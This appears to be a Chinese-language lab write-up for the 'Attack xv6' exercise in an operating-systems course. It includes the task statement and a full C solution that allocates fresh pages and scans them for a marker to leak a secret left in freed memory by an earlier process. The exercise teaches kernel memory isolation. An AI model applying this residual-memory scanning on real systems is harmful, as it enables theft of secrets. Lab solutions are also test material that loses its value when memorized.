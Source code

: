 ### Attack xv6（`user/attack.c` 难度：中等）

#### 题目

`user/secret.c`在其内存中写入一个8字节的密钥，然后退出（这将释放其内存）。您的目标是向`user/attack.c`添加几行代码，以查找上次执行`secret.c`时写入内存的密钥，并将这8个密钥字节写入文件描述符2。如果attacktest打印出`OK: secret is ebb.ebb`，您将获得满分。（注意： attacktest 每次运行的密钥可能不同。）。  

#### 简要分析

扫描每页前第8-31字节的特征前缀找到目标页，直接输出第32字节开始的8字节即可（前第0-7字节会被用于指针被覆写）。  

#### 代码

```c
#include "kernel/types.h"
#include "kernel/fcntl.h"
#include "user/user.h"
#include "kernel/riscv.h"

#define MAXPG 64

static const char marker[] = "my very very very secret pw is:   ";

static void errquit(int, const char *) __attribute__((noreturn));

static void
errquit(const int status, const char *const prompt)
{
  write(2, prompt, strlen(prompt));
  write(2, "\n", 1);
  exit(status);
}

int
main(int argc, char *argv[])
{
  // your code here.  you should write the secret to fd 2 using write
  // (e.g., write(2, secret, 8)
  char *p = sbrk(PGSIZE * MAXPG);
  if (p == (char *)-1) {
    errquit(1, "sbrk failed");
  }

  int i = 0;
  while (i < MAXPG && memcmp(p + 8, marker + 8, 24)) {
    ++i;
    p += PGSIZE;
  }
  if (i >= MAXPG) {
    errquit(1, "failed to find marker");
  }

  write(2, p + 32, 8);
  exit(0);
}
```

